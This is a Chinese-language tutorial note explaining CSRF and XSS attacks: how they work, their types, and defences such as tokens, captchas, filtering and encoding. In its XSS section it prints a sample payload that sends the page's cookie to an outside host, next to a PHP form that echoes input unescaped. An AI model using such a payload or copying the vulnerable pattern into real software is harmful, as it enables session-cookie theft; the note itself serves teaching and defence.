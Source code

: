 # XSRF(或叫做CSRF)和XSS
CSRF(Cross-site request forgery)跨站请求伪造：通过伪装来自受信任用户的请求来利用受信任的网站。
XSS(Cross Site Scripting)跨站脚本攻击
CSRF重点在请求,XSS重点在脚本

CSRF：网站过分信任用户，放任来自所谓通过访问控制机制的代表合法用户的请求执行网站的某个特定功能。
XSS：用户过分信任网站，放任来自浏览器地址栏代表的那个网站代码在自己本地任意执行。如果没有浏览器的安全机制限制，xss代码可以在用户浏览器为所欲为

* ### CSRF
    + CSRF攻击原理
        1. 用户登录受信任网站A，浏览器保存了A的Cookie
        2. 用户在没有登出A网站的情况下，访问危险网站B
        3. B在用户不知情的情况下向第三方站点A发起一个请求R
        4. 因为A没有做防止CSRF的措施，A无法判断请求是用户发出的还是其他站点发出的。
        5. 浏览器会自动带上用户在A网站的Cookie，所以A网站会当做用户在发起请求R。

        + 总结
        CSRF攻击是源于WEB的隐式身份验证机制！WEB的身份验证机制虽然可以保证一个请求是来自于某个用户的浏览器，但却无法保证该请求是用户批准发送的！

    + CSRF的防御
    一般在服务端进行CSRF防御，效果也比较好(客户端也可以)
    服务端的CSRF方式方法很多样，但总的思想都是一致的，就是在客户端页面增加伪随机数。
    （因为攻击者无法读取非同源站点的Cookie作为本次请求的参数，注意，是参数不是Cookie，浏览器还是会自动带上Cookie，服务器会验证参数和Cookie值是否相同）
        1. Cookie Hashing(所有表单都包含同一个伪随机值)：在表单里增加Hash值，以认证这确实是用户发送的请求。
        `<input type=”hidden” name=”hash” value=”<?=$hash;?>”>`
        2. One-Time Tokens(不同的表单包含一个不同的伪随机值，在页面上生成一个Token，发请求的时候把Token带上。处理请求的时候需要验证Cookies+Token。)
        3. 验证码：用户填写图片验证码，易用性不太好。


* ### XSS
    + 原理
        XSS本质是Html注入，和SQL注入差不多。
        XSS跨站攻击就是在网页里面埋入恶源代码，劫持用户的信息投递到预设的网站上去的一种黑客攻击手段。
        举个栗子：把网页比作一瓶液体，普通用户看来透明的应该可以喝，就直接喝了（访问），黑客XSS攻击者就相当于在水里投一种无色无味的毒药，你喝掉就被控制了，主动把身上的钱啊（cookie） 银行卡密码（存储的账号密码）啊都交了出来，甚至你自己还不知道。
        ```
        # 这里是一个表单输入框，正常应该输入一个地址，但是攻击者可能输入一段html代码，如：
        #   "/> <script>window.open("http://secquan.org/xss_hacker.php?cookie="+document.cookie);</script><!--
        <form>
        <input style="width:300px;" type="text" name="address1" value="<?php echo $_GET["address1"]; ?>" />
        <input type="submit" value="Submit" />  
        </form>

        # 于是，代码变为如下，目的是获取本机存储的该域名的cookie发送到另一个地址
        <form>
        <input style="width:300px;" type="text" name="address1" value=""/>
        <script>window.open("http://secquan.org/xss_hacker.php?cookie="+document.cookie);</script><!--" />
        <input type="submit" value="Submit" />  
        </form>
        ```
    + 类型
        + 反射型XSS，又称非持久型XSS：将恶意的脚本附加到URL地址的参数中，一般是将构造好的URL发给受害者，是受害者点击触发，而且只执行一次，非持久化。
        + 储存型XSS，也就是持久型XSS：攻击者事先讲恶意JavaScript代码上传或存储到漏洞服务器中，只要受害者浏览包含此恶意的代码的页面就会执行恶意代码。

    + 防范手段
        + 过滤：对诸如<script>、<img>、<a>等标签进行过滤。
        + 编码：像一些常见的符号，如<>在输入的时候要对其进行转换编码，这样做浏览器是不会对该标签进行解释执行的，同时也不影响显示效果。
        + 限制：xss攻击要能达成往往需要较长的字符串，因此对于一些可以预期的输入可以通过限制长度强制截断来进行防御。
